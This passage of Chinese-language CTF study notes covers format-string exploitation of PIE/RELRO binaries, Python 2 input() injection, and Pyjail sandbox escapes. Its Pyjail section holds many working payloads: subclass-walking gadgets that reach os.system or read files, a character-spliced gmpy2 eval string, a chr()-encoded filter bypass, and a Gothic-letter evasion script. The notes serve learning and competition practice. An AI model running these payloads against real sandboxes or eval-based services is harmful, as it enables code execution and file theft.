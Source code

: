 ```
+18h: <Data>
```
当Data Size超过0x10时, Data Pointer会存在堆上。

36. Full RELRO，NX+PIE格式化字符串调用system('/bin/sh')。例题:[rut-roh-relro](https://jiravvit.github.io/230215-lactf2023-rut-roh-relro/),视频[wp](https://www.youtube.com/watch?v=K5sTGQPs04M)。rdi是一块可写的空间，泄露libc基地址后加上调试得到的偏移即可尝试写入，例如格式化字符串漏洞调用system。写栈上返回地址也是同理。不是往反编译出来的地址上写，而是泄露栈地址后调试找到偏移然后格式化字符串写。注意libc，stack，pie需要分别泄露地址，都需要靠动调找泄露出来的偏移。甚至于，同一个函数，不同调用的偏移都不是一致的。如果单纯PIE+NX，可以用格式化字符串泄露一个地址后算出基址，加上plt和got表的偏移即可算出system等函数的正确plt/got，改got表即可。
37. 利用risc-v虚拟机任意地址读写漏洞执行rop链。例题:[CS2100](../../CTF/HackTM%20CTF/Pwn/CS2100.md)
38. 在python2中，input()函数等同于eval(raw_input())，意味着它会读取合法的python 表达式并执行，那么输入一个shell语句就能getshell了，例如`"__import__('os').system('cat flag.txt')"`。例题:[Balloons](https://github.com/ZorzalG/the-big-MHSCTF2023-writeups/blob/main/Balloons.md)
39. [Pyjail](https://cheatsheet.haax.fr/linux-systems/programing-languages/python/)([python沙盒逃逸](https://www.cnblogs.com/h0cksr/p/16189741.html))。这类题型知识点比较杂，记录一点看过的，以后要用就翻。
- `[*().__class__.__base__.__subclasses__()[50+50+37].__init__.__globals__.values()][47]([].__doc__[5+5+7::79])`
> 利用\*符号将字典值转为列表，从而可使用\[\]取值+利用system函数和`__doc__`里的sh字符串getshell。例题:[Virus Attack](https://github.com/daffainfo/ctf-writeup/tree/main/2023/ByteBanditsCTF%202023/Virus%20Attack)。类似的题目还有里面提到的[Albatross](https://okman.gitbook.io/okman-writeups/miscellaneous-challenges/redpwnctf-albatross)，不过这道题多了个unicode哥特字符也能执行函数的考点：

```python
𝔭𝔯𝔦𝔫𝔱("hello!")
#hello!
```
print函数可正常使用。提供一个简单的普通字母转哥特字母脚本。
```py
import string,sys
fake_alphabet = "𝔞 𝔟 𝔠 𝔡 𝔢 𝔣 𝔤 𝔥 𝔦 𝔧 𝔨 𝔩 𝔪 𝔫 𝔬 𝔭 𝔮 𝔯 𝔰 𝔱 𝔲 𝔳 𝔴 𝔵 𝔶 𝔷".split(" ")
real_alphabet = string.ascii_lowercase
trans = str.maketrans("".join(real_alphabet), "".join(fake_alphabet))
code = sys.argv[1]
converted_code = code.translate(trans)
print(converted_code)
```
- `("a"*118).__class__.__base__.__subclasses__()[118].get_data('flag.txt','flag.txt')`
  - 任意文件读取。来源:[Pycjail](../../CTF/LA%20CTF/Misc/Pycjail.md)（任意文件读取/RCE）。知识点：
    - LOAD_GLOBAL, LOAD_NAME, LOAD_METHOD和LOAD_ATTR是常用的加载可调用对象的opcode。
    - IMPORT_FROM本质上还是LOAD_ATTR，只不过多了一层伪装。可以手工在使用LOAD_ATTR的地方将其改为IMPORT_FROM也不会有问题。
    - 在python 的bytecode中，两种调用函数的方式分别为LOAD_METHOD+CALL_METHOD和LOAD_ATTR+CALL_FUNCTION.
- `().__class__.__bases__[0].__subclasses__()[124].get_data('.','flag.txt')`.这种是上个的变种，两者都可以在jail环境无builtins时使用
- 假如环境带有gmpy2，注意gmpy2.__builtins__是含有eval的，因此可以构造任意命令。在builtins里取函数和构造命令还可以通过拼接的形式，如：

```python
gmpy2.__builtins__['erf'[0]+'div'[2]+'ai'[0]+'lcm'[0]]('c_div'[1]+'c_div'[1]+'ai'[1]+'agm'[2]+'cmp'[2]+'cos'[1]+'erf'[1]+'cot'[2]+'c_div'[1]+'c_div'[1]+"("+"'"+'cos'[1]+'cos'[2]+"'"+")"+"."+'cmp'[2]+'cos'[1]+'cmp'[2]+'erf'[0]+'jn'[1]+"("+"'"+'cmp'[0]+'ai'[0]+'cot'[2]+" "+"/"+'erf'[2]+'lcm'[0]+'ai'[0]+'agm'[1]+"'"+")"+"."+'erf'[1]+'erf'[0]+'ai'[0]+'add'[1]+"("+")")
```
- print相关(无需eval)
  - `print.__self__.__import__("os").system("cmd")`。绕过滤版本：`print.__self__.getattr(print.__self__.getattr(print.__self__, print.__self__.chr(95) + print.__self__.chr(95) + print.__self__.chr(105) + print.__self__.chr(109) + print.__self__.chr(112) + print.__self__.chr(111) + print.__self__.chr(114) + print.__self__.chr(116) + print.__self__.chr(95) + print.__self__.chr(95))(print.__self__.chr(111) + print.__self__.chr(115)), print.__self__.chr(115) + print.__self__.chr(121) + print.__self__.chr(115) + print.__self__.chr(116) + print.__self__.chr(101) + print.__self__.chr(109))("cmd")`
  - 尝试读函数源码
  ```py
  print(<func>.__code__) #获取文件名，func为文件内的函数名
  print(<fund>.__code__.co_names) #获取函数内调用的函数
  print(<func>.__code__.co_code) #函数的字节码
  print(<func>.__code__.co_consts) #函数内直接定义的常量
  print(<func>.__code__.co_varnames) #函数内定义的变量
  #https://github.com/HeroCTF/HeroCTF_v5/tree/main/Misc/pygulag ，内含字节码反编译脚本
  ```